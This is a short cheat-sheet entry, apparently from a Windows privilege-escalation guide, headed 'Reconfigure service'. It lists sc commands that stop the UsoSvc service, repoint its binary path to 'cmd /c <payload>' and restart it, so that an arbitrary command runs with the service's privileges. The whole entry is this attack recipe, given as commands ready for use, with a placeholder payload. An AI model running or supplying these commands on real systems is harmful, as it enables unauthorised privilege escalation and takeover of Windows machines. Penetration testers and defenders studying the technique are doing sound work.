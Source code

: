 # Services

#### Reconfigure service

Requires permissions to change start / stop and modify a service.

```bash
sc qc UsoSvc
sc stop UsoSvc
sc config UsoSvc binPath="cmd /c <payload>"
sc start UsoSvc
```



